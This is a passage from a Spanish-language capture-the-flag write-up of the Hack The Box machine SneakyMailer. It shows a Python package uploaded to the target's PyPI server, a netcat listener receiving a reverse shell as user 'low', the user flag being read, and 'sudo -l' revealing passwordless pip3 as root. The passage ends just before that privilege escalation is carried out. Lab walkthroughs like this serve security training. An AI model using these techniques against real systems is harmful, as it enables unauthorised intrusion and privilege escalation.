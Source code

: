 ```bash
Creating tar archive
removing 'linode_example-0.1' (and everything under it)
running upload
Submitting dist/linode_example-0.1.tar.gz to http://pypi.sneakycorp.htb:8080/
Server response (200): OK
```

Recibimos la conexión desde la maquina victima como el usuario `low`

```bash
❯ ncat -nlvp 443
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.197.
Ncat: Connection from 10.10.10.197:45570.
$ whoami
low
$ hostname -I
10.10.10.197 dead:beef::250:56ff:feb9:6b16 
```

Realizamos nuevamente un tratamiento de la `tty` como ya hicimos anteriormente, nos dirigimos al directorio personal del usuario y podemos visualizar la primera flag `user.txt`

```bash
low@sneakymailer:/$ cd /home
low@sneakymailer:/home$ ls
low  vmail
low@sneakymailer:/home$ cd low/
low@sneakymailer:~$ cat user.txt 
4a39c61b14f3e1c7c83014390f90942e
low@sneakymailer:~$ 
```

## Escalada de privilegios [#](#escalada-de-privilegios) {#escalada-de-privilegios}

Ejecutamos el comando `sudo -l` para ver si tenemos privilegios a nivel de `sudoers` y vemos que tenemos uno asociado al comando `pip3` el cual podemos ejecutar como `root` de forma temporal sin requerir contraseña.

```bash
low@sneakymailer:~$ sudo -l
sudo: unable to resolve host sneakymailer: Temporary failure in name resolution
Matching Defaults entries for low on sneakymailer:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User low may run the following commands on sneakymailer:
    (root) NOPASSWD: /usr/bin/pip3
```

Lo siguiente sera dirigirnos a nuestra web de confianza
